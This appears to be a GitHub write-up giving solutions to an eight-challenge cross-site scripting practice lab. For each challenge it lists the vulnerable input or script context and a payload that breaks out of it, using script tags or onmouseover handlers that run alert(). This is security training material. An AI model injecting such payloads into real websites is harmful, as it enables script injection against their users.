 # XSS-Practice-Lab


##Lab Link : http://leettime.net/xsslab1/chalg1.php

Author : Sheikh Rishad

<XSS Practice Lab/>


Challenge_1:

    <input type="text" name="name"></input>

payload :   

    <script>alert(1)</script>




Challenge_2:

     <input type="text" name="name" value=hack></input>

payload :  

     ><script>alert(document.URL)</script>


Challenge_3:

     <input type="text" name="name" value="hack"></input>

payload :  

    "><script>alert(document.URL)</script>


Challenge_4:

     <input type="text" name="name" value='hack'></input>

payload :   
 
    '><script>alert(document.URL)</script>


Challenge_5:

    <center><script>var search_str="hack";</script>

payload :   
  
    </script><script>alert(document.URL)</script>


Challenge_6:

     <center><script>var search_str='hack';</script>

payload : 
  
    </script><script>alert(document.URL)</script>


Challenge_7:

     <input type="text" name="name" value='<scriptalert("hack")</script'></input>

payload :   
 
    'onmouseover='alert(document.URL);


Challenge_8:

    <input type="text" name="name" value='&gt;&lt;script&gt;alert(1)&lt;/script&gt;'></input>

payload :   
       
    "onmouseover="alert(document.URL);
